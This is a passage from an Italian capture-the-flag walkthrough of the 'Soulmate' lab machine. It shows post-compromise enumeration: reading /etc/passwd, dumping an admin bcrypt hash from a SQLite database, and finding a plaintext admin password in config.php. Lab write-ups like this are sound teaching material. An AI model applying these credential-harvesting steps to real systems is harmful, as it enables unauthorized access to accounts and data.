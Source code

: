 Funziona!

Dopo aver fatto la "improve" della shell si ottiene la `user.txt`.

## Shell as Ben

```bash

www-data@soulmate:/$ cat /etc/passwd | grep -E "sh$"
root:x:0:0:root:/root:/bin/bash
ben:x:1000:1000:,,,:/home/ben:/bin/bash

```

Si ispeziona il file system, a partire dalla directory `/var/www/`.

```bash

www-data@soulmate:~$ ls -lah /var/www
total 16K
drwxr-xr-x  4 root root 4.0K Aug 27 09:24 .
drwxr-xr-x 13 root root 4.0K Sep  2 10:19 ..
drwxr-xr-x  2 root root 4.0K Aug 27 09:25 html
drwxr-xr-x  6 root root 4.0K Aug 10 10:39 soulmate.htb

```

In `/var/www/soulmate.htb/data/soulmate.db` contiene la password dell'utente `admin`.

```text

sqlite> PRAGMA table_info("users");
0|id|INTEGER|0||1
1|username|TEXT|1||0
2|password|TEXT|1||0
3|is_admin|INTEGER|0|0|0
4|name|TEXT|0||0
5|bio|TEXT|0||0
6|interests|TEXT|0||0
7|phone|TEXT|0||0
8|profile_pic|TEXT|0||0
9|last_login|DATETIME|0||0
10|created_at|DATETIME|0|CURRENT_TIMESTAMP|0

sqlite> SELECT username, password FROM users;
admin|$2y$12$u0AC6fpQu0MJt7uJ80tM.Oh4lEmCMgvBs3PwNNZIR7lor05ING3v2

```

Alla password e' stata applicata una funzione di hash (**Bcrypt**).

In `/var/www/soulmate.htb/config/config.php` sono presenti le configurazioni per l'applicazione e le credenziali di `admin` in chiaro.

```php

$adminPassword = password_hash('Crush4dmin990', PASSWORD_DEFAULT);
$adminInsert = $this->pdo->prepare("
    INSERT INTO users (username, password, is_admin, name) 
    VALUES (?, ?, 1, 'Administrator')
    ");
$adminInsert->execute(['admin', $adminPassword]);

```
